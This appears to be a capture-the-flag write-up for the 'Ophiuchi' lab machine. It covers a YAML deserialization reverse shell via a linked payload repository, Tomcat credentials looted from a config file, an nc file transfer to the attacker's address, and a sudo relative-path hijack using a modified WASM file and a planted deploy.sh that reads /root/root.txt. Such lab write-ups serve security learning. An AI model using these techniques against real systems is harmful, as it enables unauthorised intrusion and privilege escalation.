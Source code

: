 # Ophiunchi
IP : 10.10.10.227 

nmap show us there are two ports open 

|Port|Servce|
|----|----| 
|22|ssh|
|8080|http|

The http server is a apache server with yaml parser. 
YAML is data.serialization language. It common used for configuration files and used for application for stored or transmittied. 

[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)

Has a excellence exploit for yaml 

Once I get a reverse shell as tomcat. 
time to look for a way to privilege escalation to user. 
During eom emulation I find the creditials of the user in file /opt/tomcat/conf/tomcat-users.xsd

```
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```

I can now ssh into the machine using the credientals.

## privilege escalation  to root 
Frist we check what we can run as root without password. 

```
(ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

Lets see what the file says: 

```
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {          <==========================================
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

We can see a mistake in the programming in the code, instead for absolute path it relative path, allows us to manipulate these varibles so they can read from current working directory, from where we execute index.go. 

Lets make a tmp file and copy main.wasm and create a deploy.sh 

```
mkdir tmp

cp /opt/wasm-functions/main.wasm ./
touch deploy.sh
nano deploy.sh
```

We write to our file that echo the content for root.txt 
```
#!/bin/sh

cat /root/root.txt
```

Lets run the command and see what happens. 
... Not ready to deploy so the value of f from main.wasm is not 1. 

We have to edit the main.wasm file to ensure that main.wasm output with f with 1. 

[https://github.com/webassembly/wabt](https://github.com/webassembly/wabt) 

```
sudo apt install wabt  #install the binary needed  
```

allows us to edit wasm by converting it to wat the readable format for wasm files. 

transfer the main.wasm to your own machine so we have the oppitunity to edit it. 

```
nc 10.10.14.200 5555 < main.wasm
nc -lnvp 5555 > main.wasm    
```
Convert the file to wat 
```
wasm2wat main.wasm > main.wat 
nano main.wat 
```

min.wat content. 
```
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)      <=======================================
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```
It will never return with a value other then 0, lets change that by editing it too 1. 
```
i32.const 1) 
```

Convert back to wasm and transfer to target 
```
wat2wasm main.wat
scp main.wasm admin@ophiuchi.htb:/home/admin/tmp
```

Run the command again and get the flag. 
```
/usr/bin/go run /opt/wasm-functions/index.go
```